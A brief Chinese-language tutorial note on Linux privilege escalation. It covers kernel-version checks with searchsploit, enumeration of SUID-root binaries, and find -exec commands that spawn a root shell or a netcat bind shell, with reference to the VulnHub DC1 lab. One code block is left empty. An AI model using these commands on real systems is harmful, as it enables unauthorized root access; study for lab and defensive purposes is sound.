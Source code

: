 # Linux提权

## 前言

提权本质：一方面是信息收集，另一方面是对内核漏洞的掌握情况

## 基础信息收集

```bash
# 查看发行版

# 查看内核版本

```

## 提权操作

### 内核漏洞提权

1.查看发行版以及内核版本
```bash
cat /etc/issue
cat /etc/*-release

uname -a
```

2.kali查找漏洞
```
searchsploit linux 3.10 CentOS Linux 7
```
### SUID提权

suid全称是Set owner User ID up on execution。SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

常见的可用来提权的linux可执行文件如下：
```
Nmap, Vim, find, bash, more, less, nano, cp
```

查看可以suid 提权的可执行文件(查看拥有suid权限的命令)
```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

![image](./img/vulnhub-dc1-13.png)

#### find

案例可见DC1的提权
```bash
find aaa - exec netcat -lvp 5555 -e /bin/sh \ # 反弹
find . -exec /bin/sh \; # 直接提权
```















## 参考文章
- https://wiki.xazlsec.com/project-9/doc-730/
- https://xz.aliyun.com/t/7924
- https://shng.fun/posts/2021-01-23-%E5%AD%A6%E4%B9%A0-Linux%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95.html
- https://www.freebuf.com/articles/web/280398.html
- https://www.hacking8.com/tiquan/other/Linux%E6%8F%90%E6%9D%83.html